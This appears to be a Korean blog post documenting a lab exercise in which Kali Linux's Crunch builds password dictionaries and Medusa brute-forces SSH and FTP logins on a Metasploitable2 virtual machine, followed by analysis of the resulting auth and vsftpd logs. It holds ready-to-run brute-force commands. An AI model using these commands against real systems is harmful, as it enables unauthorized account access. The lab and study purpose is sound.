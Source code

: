 ```yaml
---
title:  "Medusa"
excerpt: ""

categories:
  # - security
tags:
  - [csrf, security, metasploitable2, dvwa]

toc: true
toc_sticky: true
 
date: 2022-5-17
last_modified_at: 2022-5-17
---
```

## Kali linux에서 Medusa, Crunch를 활용해서 Brute Force 공격 해보기
#### Metasploitable2 설정
* * *
```bash
$ metasploitable2@msfadmin : sudo adduser iu
# 비밀번호는 goodluck
```

#### Kali 설정
* * *
medusa 설치 확인

```bash
$ kali@kali : sudo medusa --help
```

![picture 1](../assets/images/20220517-011724.png){: .center} 

##### Dictionary 수정
* * *
```bash
$ kali@kali : cd /usr/share/john
$ kali@kali : vi password.lst
```

##### Medusa 사용

```bash
$ kali@kali : sudo medusa -h 192.168.5.130 -u iu password.lst -M ssh
```

![picture 2](../assets/images/20220517-012128.png){: .center}

---

* * *
#### 딕셔너리 만들기 실습
* * *
```bash
$ kali@kali : cd /usr/share/crunch
# 메뉴얼 확인
$ kali@kali : sudo man crunch
```

##### 숫자 4자리로 구성된 딕셔너리를 만들기
* * *
```bash
$ kali@kali : sudo crunch 4 4 0123456789 -o pw1.txt
$ kali@kali : less pw1.txt
```
![picture 3](../assets/images/20220517-013532.png){: .center} 

\* 주의사항) 너무 큰 파일을 생성하면 에러 발생 우려 ex) 500MB 이상

##### 소문자 4자리로 구성된 딕셔너리 만들기
* * *
```bash
$ kali@kali : less charset.lst
$ kali@kali : sudo crunch 4 4 -f charset.lst lalpha -o pw2.txt
$ kali@kali : less pw2.txt
```
![picture 4](../assets/images/20220517-014036.png){: .center}

![picture 7](../assets/images/20220517-014206.png){: .center}  

![picture 5](../assets/images/20220517-014142.png){: .center}

##### 특정 문자가 들어가는 4자리로 구성된 딕셔너리 만들기
* * *
```bash
$ kali@kali : sudo crunch 4 4 0123456789 -t 'sk@@' -o pw3.txt
$ kali@kali : less pw3.txt
```

![picture 8](../assets/images/20220517-015612.png){: .center}

![picture 9](../assets/images/20220517-015648.png){: .center}

##### skinfosec 뒤에 숫자 세자리, 특수문자 1자리로 된 딕셔너리
* * *
\* ' ' 를 사용하고 @를 넣으면 와일드 문자로 사용되지만,

\* ' ' 를 사용하지 않는 경우 아래와 같이 문자가 지정 됨.
- @ : lower case character
- , : upper case character
- % : numbers
- ^ : symbols

```bash
$ kali@kali : sudo crunch 13 13 -t skinfosec%%%^ -o pw4.txt
$ kali@kali : less pw4.txt
```

![picture 10](../assets/images/20220517-020107.png){: .center}

![picture 11](../assets/images/20220517-020130.png){: .center}


##### Medusa + Crunch 로 Brute Force 공격 해보기
* * *
**Metasploitable 에서 계정 추가**

```bash
$ metasploitable : sudo adduser gidle
# password : Sk#4
# 로그 실시간 확인
$ metasploitable : tail -f /var/log/auth.log
```

![picture 12](../assets/images/20220517-021336.png){: .center}

**Kali 에서 crunch로 딕셔너리 생성**

```bash
$ kali@kali : sudo crunch 4 4 -t ,@^% -o pw5.txt
$ kali@kali : less pw5.txt
```

![picture 14](../assets/images/20220517-021536.png){: .center}


![picture 13](../assets/images/20220517-021512.png){: .center}

**Kali 에서 medusa 로 brute force 공격 시작**

```bash
$ kali@kali : sudo medusa -h 192.168.5.130 -u gidle pw5.txt -M ssh
# -t : 쓰레드 추가 -> 속도 up!
$ kali@kali : sudo medusa -h 192.168.5.130 -u gidle pw5.txt -M ssh -t 16
```

![picture 15](../assets/images/20220517-021802.png){: .center}
**Log 확인하기**

```bash
# Kali가 가져올 수 있도록 metasploitable2 에서 파일 옮기기
$ sudo cp /var/log/auth.log /var/www
$ sudo chmod 777 /var/www/auth.log
```

```bash
# kali로 가져오기 
$ sudo wget 192.168.5.128/auth.log
$ cat auth.log | awk '{print $12,$13,$14,$15}' | sort | uniq -c
$ cat auth.log | awk '{print $5}' | awk -F"[" '{print $1}' | sort | uniq -c | sort -rn
```

![picture 16](../assets/images/20220517-031446.png){: .center}

**ftp 로그 확인**

```bash
$ kali : sudo medusa -h 192.168.5.130 -u gidle -P pw5.txt -M ftp -t 16
```

```bash
# Kali가 가져올 수 있도록 metasploitable2 에서 파일 옮기기
$ msfadmin : sudo cp /var/log/auth.log /var/www
$ msfadmin : sudo chmod 777 /var/www/auth.log
```

```bash
# kali로 가져오기 
$ kali : sudo wget 192.168.5.128/vsftp.log
```

![picture 17](../assets/images/20220517-031911.png){: .center}  

```bash
# log 분석
$ kali : cat vsftpd.log | awk '{print $8, $12}' | sort | uniq -c | sort -rn
```

![picture 18](../assets/images/20220517-032332.png){: .center}  
